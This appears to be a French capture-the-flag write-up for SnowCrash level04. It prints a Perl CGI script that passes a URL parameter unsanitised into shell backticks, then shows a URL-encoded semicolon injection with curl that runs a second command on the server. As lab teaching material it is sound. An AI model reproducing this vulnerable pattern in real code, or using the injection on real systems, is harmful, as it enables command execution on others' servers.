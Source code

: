 # Recherche des fichiers disponibles

Avec la commande ls, on remarque le fichier **level04.pl**.

```bash
level04@SnowCrash:~$ ls
level04.pl
```

En examinant le contenu, on comprend que c'est un script perl qui fait tourner un CGI sur un serveur local avec le port 4747.

```bash
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

On peut donc accéder au serveur avec une URL du style `http://localhost:4747/?x=hello` avec x le paramètre.

```bash
level04@SnowCrash:~$ curl "http://localhost:4747/?x=hello"
hello
```

Mais étant donné que c'est une URL, certains caractères ne sont pas valides, comme l'espace, du coup il faut le remplacer par son code hexadécimal ASCII, préfixé par un %.

```bash
level04@SnowCrash:~$ curl "http://localhost:4747/?x=hello world"
hello
level04@SnowCrash:~$ curl "http://localhost:4747/?x=hello%20world"
hello world
```

Ainsi, on peut injecter une commande en profitant de la syntaxe bash.

`curl "http://localhost:4747/?x=%3Bgetflag"` (%3B = ;)

donnera par substitution: `echo ;getflag 2>&1`
